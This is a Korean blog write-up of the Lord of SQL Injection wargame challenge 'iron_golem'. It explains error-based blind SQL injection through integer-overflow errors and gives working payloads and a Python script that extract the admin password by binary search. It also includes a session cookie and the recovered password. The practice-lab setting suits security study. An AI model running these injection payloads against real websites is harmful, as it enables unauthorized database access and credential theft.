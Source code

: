 ```yaml
---
title: LOS - 21번 iron_golem
category: Lord of SQL Injection
---
```


# [21] iron_golem

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcPwCAb%2FbtrnN2IAMBF%2FDQ6Tb1nf7xL43zwK3VJjqk%2Fimg.png">

## 풀이

solve 조건은 admin 계정의 pw를 알아내는 것이다.

<br> 

preg_match를 살펴보면 sleep과 benchmark를 필터링하고 있다.

두 함수 모두 Time Based Blind SQLi에 쓰이는 함수다.

.과 _등을 함께 필터링하므로 헤비쿼리도 사용이 불가능하다.

Timed Based로 접근하기 위한 방법이 모두 막혔으므로, 다른 방식으로 푸는 문제임을 유추할 수 있다.

* 헤비쿼리 : information_schema.columns 등을 여러개 join시켜 내부 데이터를 왕창 읽어들임으로써 시간을 지연시키는 방법이다.

<br> 

또한 지금까지의 문제들처럼 쿼리의 실행 결과를 보여주는 대신, 에러 발생 시 에러 메시지를 보여주고 있다.

* Hello {$result[id]} → mysqli_error($db)

<br> 

이러한 점들로 미루어 보아, **Error Based**로 접근해야하는 문제임을 짐작할 수 있다.

Timed Based나 Error Based에 대해 제대로 공부해본 적이 없었기 때문에 여기까지 결론을 내리는데 많은 시간이 소요되었다...

<br> 

고의적으로 에러를 발생시키는 방법에는 여러가지가 있다.

* 이 때, 발생시켜야하는 에러는 Syntax Error가 아닌 Runtime Error이다.

<br> 

그 중 개인적으로 가장 간단하다고 생각한 방법인 **큰 수 연산**을 통해 문제를 해결해보았다.

말 그대로, Integer 범위를 초과하는 과도한 연산을 요청함으로써 에러를 발생시키는 방법이다.

<br> 

먼저, 과도하게 큰 수의 연산을 요청했을 시의 에러 메시지의 내용을 확인해본다.

<br> 

다음은 pw의 페이로드로 **' or 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF** 를 주었을 시의 에러 메시지의 내용이다.

<br>

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcV5YE2%2FbtrnHQ9Yybo%2FRNhtCVTKtlnkiJ43qeGg8k%2Fimg.png">

<br>

위 에러 메시지 내용의 일부를 키워드로 활용하여 자동화 코드를 짜면 된다.

나는 **out of range**를 선택했다.

- res.text에 out of range가 포함되어있을 시 에러가 발생한 것으로 판별한다.

<br> 

pw의 길이를 찾았을 시 에러를 발생시키기 위한 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
```

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

특정 인덱스의 아스키를 찾았을 시 에러를 발생시켜주면 된다.

<br> 

또한 이번 문제에서도 검색 속도를 높이기 위해 2진 탐색을 적용해준다.

<br>

**LoS 21번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
    if("out of range" in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))>={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
        if("out of range" in send(param)):
            param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
            if("out of range" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlzbFA%2FbtrnR3lVWQ4%2FOP9KfPRWEIVTnk5vlbLbG1%2Fimg.png">

Blind 공격 결과, pw는 `06b5a6c16e8830475f983cc3a825ee9a` 임을 확인할 수 있다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvUIOy%2FbtrnHSz1mvI%2FmWvA84g3zRa4OBEfXhTkj1%2Fimg.png">